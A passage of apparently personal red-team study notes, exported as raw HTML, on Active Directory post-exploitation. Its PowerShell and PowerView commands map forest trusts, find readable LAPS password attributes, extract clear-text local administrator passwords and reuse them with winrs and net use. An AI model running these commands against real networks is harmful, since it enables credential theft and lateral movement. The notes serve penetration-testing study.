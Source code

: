 root\Microsoft\Windows\DeviceGuard</code></li></ul><ul id="e2325ba8-212f-4aba-ae15-99fa41ea7b94" class="bulleted-list"><li style="list-style-type:disc">check tamper protection with <code>Get-MpComputerStatus|select IsTamperProtected</code><ul id="05d37f65-ae16-4ef1-8604-d817c9c07f84" class="bulleted-list"><li style="list-style-type:circle">note tamper protection is on by default on Windows Server 2019, 2022, and 1803 or later among other servers</li></ul></li></ul><h2 id="c473bea6-31cf-4859-a028-284c532314b8" class="">Misc</h2><ul id="a6971b0f-fc5a-4a59-a152-051bf9cb13a6" class="bulleted-list"><li style="list-style-type:disc">use <code>Get-ADTrust -Filter &#x27;intraForest -ne $True&#x27; -Server (Get-ADForest).Name</code> to map all trusts of current forest</li></ul><ul id="c6f241d7-f699-4477-8813-7d30b53de8ac" class="bulleted-list"><li style="list-style-type:disc">use <code>(Get-ADForest).Domains | %{Get-ADTrust -Filter &#x27;(intraForest -ne $True) -and (ForestTransitive -ne $True)&#x27; -Server $_}</code> to map all external trusts<ul id="687d595f-0291-4811-ba93-dbd64dd422c4" class="bulleted-list"><li style="list-style-type:circle">can be done also with PowerView’s <code>Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq &#x27;FILTER_SIDS&#x27;}</code></li></ul></li></ul><h1 id="f7cfa0fe-bda5-4142-ba01-0386dc4d702c" class="">Domain Privilege Escalation</h1><h2 id="62a12a95-c900-4d92-8223-670ab66f5d36" class="">LAPS</h2><p id="adc3cb98-4a21-451f-828c-0bffbe1c7c65" class="">Provides centralized storage of local user passwords and periodically rotates passwords. Helps mitigate lateral movement by stopping reuse of passwords. </p><ul id="80275d41-e80a-48a0-bfce-483ae35ca7e4" class="bulleted-list"><li style="list-style-type:disc">check if <code>ms-mcs-admpwd</code> attribute is visible with <code>Get-DomainComputer | Select-Object &#x27;dnshostname&#x27;,&#x27;ms-mcs-admpwd&#x27; | Where-Object {$_.&quot;ms-mcs-admpwd&quot; -ne $null}</code></li></ul><ul id="051e3186-0de8-4974-9bdb-fdc8c9cb7758" class="bulleted-list"><li style="list-style-type:disc">can also use <code>Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($.ObjectAceType -like &#x27;ms-Mcs-AdmPwd&#x27;) -and ($.ActiveDirect
oryRights -match &#x27;ReadProperty&#x27;)} | ForEach-Object {$_ | Add-Member NoteProperty &#x27;IdentityName&#x27; $(Convert-SidToName $.SecurityIdentifier);$}</code> from PowerView to find OUs where LAPS is in use</li></ul><ul id="1d1f0a25-b0eb-4556-b91b-742ac3c49775" class="bulleted-list"><li style="list-style-type:disc">use ADModule’s <code>Get-ADComputer -Identity 0xd4y_machine -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd</code> or PowerView’s <code>Get-DomainObject -Identity 0xd4y_machine | select -ExpandProperty ms-mcs-admpwd</code> to get clear-text password of <code>ms-mcs-admpwd</code> attribute</li></ul><p id="738ddf32-4306-486d-b62f-a9ed79f83a1c" class="">With the creds, you can then do:</p><pre id="e879f24d-2a1e-4afc-a48a-e1e34becdc31" class="code"><code>winrs -r:0xd4y-machine -u:.\Administrator -p:&#x27;$ubscr1beTo0xd4y&#x27; hostname 
net use x: \\0xd4y-machine\C$\Users\Public /user:notes\Administrator &#x27;$ubscr1beTo0xd4y&#x27;
